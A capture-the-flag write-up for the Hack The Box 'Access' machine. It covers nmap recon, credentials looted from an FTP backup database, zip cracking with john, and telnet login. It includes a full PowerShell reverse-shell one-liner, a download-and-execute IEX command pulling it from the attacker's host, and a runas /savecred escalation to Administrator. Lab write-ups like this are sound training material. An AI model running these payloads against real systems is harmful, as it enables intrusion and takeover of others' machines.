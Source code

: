 # Nmap  
```bash  
Nmap scan report for 10.129.151.93  
Host is up (0.074s latency).  
  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     Microsoft ftpd  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
|_Cant get directory listing: PASV failed: 425 Cannot open data connection.  
| ftp-syst:  
|_  SYST: Windows_NT  
23/tcp open  telnet?  
80/tcp open  http    Microsoft IIS httpd 7.5  
| http-methods:  
|_  Potentially risky methods: TRACE  
|_http-title: MegaCorp  
|_http-server-header: Microsoft-IIS/7.5  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose|phone|specialized  
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)  
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1  
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 2 hops  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows  
  
TRACEROUTE (using port 23/tcp)  
HOP RTT      ADDRESS  
1   85.82 ms 10.10.16.1  
2   85.97 ms 10.129.151.93  
  
OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 189.64 seconds  
```  
# Explotation  
In port 23 we see a "Microsoft Telnet Service" and it prompts for login credentials  
  
In ftp with anonymous session we found two files:  
- Access Control.zip . Password protected, no crackable with john  
- backup.mdb . With mdb-tables and mdb-export we can see tables and export them:  
	admin:admin  
	engineer:access4u@security  
	backup_admin:admin  
  
With that credentials we create a wordlist and we crack the zip hash with john: (access4u@security is the password for the zip file)  
```bash  
┌──(kali㉿kali)-[~/…/CTFs/Hackthebox/Access/Access-Control]  
└─$ john --wordlist=posible-passwords hash.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])  
Cost 1 (HMAC size) is 10650 for all loaded hashes  
Will run 4 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
Warning: Only 5 candidates left, minimum 32 needed for performance.  
access4u@security (Access Control.zip/Access Control.pst)      
1g 0:00:00:00 DONE (2024-12-01 20:31) 7.142g/s 35.71p/s 35.71c/s 35.71C/s admin..admin  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.  
```  
  
Opening the .pst file that we found inside the zip file, we found some credentials: (Open it with **[this]([https://goldfynch.com/pst-viewer/)**](https://goldfynch.com/pst-viewer/)**))  
- security:4Cc3ssC0ntr0ller  
  
With that credentials we get a shell through telnet:  
```bash  
┌──(kali㉿kali)-[~/…/CTFs/Hackthebox/Access/Access-Control]  
└─$ telnet 10.129.151.93 23  
Trying 10.129.151.93...  
Connected to 10.129.151.93.  
Escape character is '^]'.  
Welcome to Microsoft Telnet Service  
  
login: security  
password: 4Cc3ssC0ntr0ller  
  
*===============================================================  
Microsoft Telnet Server.  
*===============================================================  
C:\Users\security>whoami  
access\security  
```  
  
As is a limited shell, we improve our shell using a ps1 file with our powershell payload, and downloaded and executed using the following method:  
```bash  
Invoke-PowerShellTcpOneLine.ps1  
  
#A simple and small reverse shell. Options and help removed to save space.  
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.  
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.24',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  
```  
Open a python3 http server (port 80) and execute the following command:  
`powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.24/Invoke-PowerShellTcpOneLine.ps1')`
  
# Privilege escalation  
Now to escalate privileges we found in Public desktop a link file which executes with runas.exe the binary C:\ZKTeco\ZKAccess3.5\Access.exe with stored credentials. If we execute `cmdkey /list` we see that we have administrator credentials stored, so we can abuse it:  
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.24/Invoke-PowerShellTcpOneLine.ps1')"`  
  
And with a netcat listener we get a shell as administrator